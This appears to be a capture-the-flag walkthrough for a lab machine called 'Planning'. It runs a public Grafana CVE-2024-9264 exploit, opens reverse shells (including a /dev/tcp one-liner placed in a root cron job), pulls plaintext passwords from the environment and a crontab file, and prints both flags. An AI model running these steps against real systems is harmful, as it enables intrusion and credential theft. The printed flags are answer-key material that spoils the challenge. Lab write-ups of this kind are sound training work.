

Let's scan the machine
```bash
sudo nmap -v -sC -sV 10.10.11.68
```


There is an open `80` port. Let's go to the site


Let's try to find subdomains
```bash
ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -u http://planning.htb -H "HOST:FUZZ.planning.htb" -t 100 -fs 178
```


Subdomain `grafana` was found. Let's add it to `/etc/hosts` and switch to it
The machine description says that there are such credentials: `admin / 0D5oT70Fq13EvB5r`


Found user `dedsec007` in `Home > Administration > Users and access > Users`:


We see that this is `Grafana v11.0.0`



Most likely, there are vulnerabilities in this version.
One of them is [CVE-2024-9264](https://github.com/nollium/CVE-2024-9264) or [CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit) from another person. Let's try to read the file:
```bash
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -f /etc/passwd http://grafana.planning.htb
```


```bash
python3 poc.py --url http://grafana.planning.htb --user admin --password 0D5oT70Fq13EvB5r --file /etc/passwd
```


Get access to the shell:
```bash
python3 poc.py --url http://grafana.planning.htb --user admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.117 --reverse-port 4444
```
On the host:
```bash
sudo ncat -lvnp 4444
```


Let's check if we are in a container:
```bash
ls -la /
```


There is `.dockerenv`, which means we are in a container. Let's check `env`
```bash
env
```


Found the password for the admin `enzo`:
```Passsword
RioTecRANDEntANT!
```
Let's connect to it via `SSH`:


The first flag is:
```flag
b26b1e2b8bffae76b27f9054116664b2
```
There is a file `crontab.db` in the directory `opt/crontabs/`. After reading it, I found some password:
```Password
P4ssw0rdS0pRi0T3c
```


Let's check the locally running services:
```bash
netstat -tulpn
```


```
0.0.0.0:80 - Web server (probably Nginx/Apache)
127.0.0.1:3000 - Grafana (local access only)
127.0.0.1:3306 - MySQL server
127.0.0.1:8000 - Unknown service
```
Let's create an SSH tunnel to get access to `localhost:8000` on your machine:
```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```
Go to this address. It asked for login and password. The following credentials worked:
```Credentials
root:P4ssw0rdS0pRi0T3c
```


There is a task `Cleanup`, which executes the script `/root/scripts/cleanup.sh`, which can only be called by `root`. Let's change the rule to get a reverse shell:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.117/4445 0>&1'
```
On the host:
```bash
sudo ncat -lvnp 4445
```


Save and click `Run now`. After that, we get a reverse shell and the second flag:


```flag
c4496c43cd07d73b544c704543518d62
```
